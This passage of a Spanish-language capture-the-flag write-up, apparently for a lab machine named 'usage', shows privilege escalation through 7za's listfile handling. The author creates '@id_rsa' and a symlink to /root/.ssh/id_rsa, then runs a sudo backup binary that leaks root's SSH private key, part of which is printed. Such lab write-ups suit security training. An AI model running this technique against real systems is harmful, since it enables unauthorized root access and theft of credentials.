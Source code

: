 ### Exploitation custom binary to get root shell

Para explotar esta vulnerabilidad y leer la clave privada SSH del usuario root, primero nos ubicamos en el directorio donde se ejecuta **7za**. Luego, creamos un archivo llamado `@id_rsa` para indicar que **7za** debe tratar `id_rsa` como una lista de archivos a comprimir.

A continuación, creamos un enlace simbólico llamado `id_rsa` que apunta a `/root/.ssh/id_rsa`. De esta forma, cuando **7za** intente leer `id_rsa`, en realidad accederá a la clave privada de root y la mostrará en un error, permitiéndonos obtener su contenido.

```bash
xander@usage:/$ cd /var/www/html/
xander@usage:/var/www/html$ touch @id_rsa
xander@usage:/var/www/html$ ln -s /root/.ssh/id_rsa id_rsa
xander@usage:/var/www/html$ ls -l
total 8
-rw-rw-r--  1 xander xander    0 Mar  7 00:10 @id_rsa
lrwxrwxrwx  1 xander xander   17 Mar  7 00:10 id_rsa -> /root/.ssh/id_rsa
drwxrwxr-x 13 dash   dash   4096 Apr  2  2024 project_admin
drwxrwxr-x 12 dash   dash   4096 Apr  2  2024 usage_blog
```

Al ejecutar el binario `/usr/bin/usage_management` a través de la opción `1` que es la que ejecuta el `7za` finalmente logramos leer el archivo `id_rsa` del usuario `root`.

```bash
xander@usage:/var/www/html$ sudo /usr/bin/usage_management
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 1

7-Zip (a) [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7763 64-Core Processor                 (A00F11),ASM,AES-NI)

Open archive: /var/backups/project.zip
--       
Path = /var/backups/project.zip
Type = zip
Physical Size = 54849834

Scanning the drive:
          
WARNING: No more files
-----BEGIN OPENSSH PRIVATE KEY-----


WARNING: No more files
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW


WARNING: No more files
QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi


WARNING: No more files
QgAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3Q


WARNING: No more files
AAAEC63P+5DvKwuQtE4YOD4IEeqfSPszxqIL1Wx1IT31xsmrbSY6vosAdQzGif553PTtDs


WARNING: No more files
```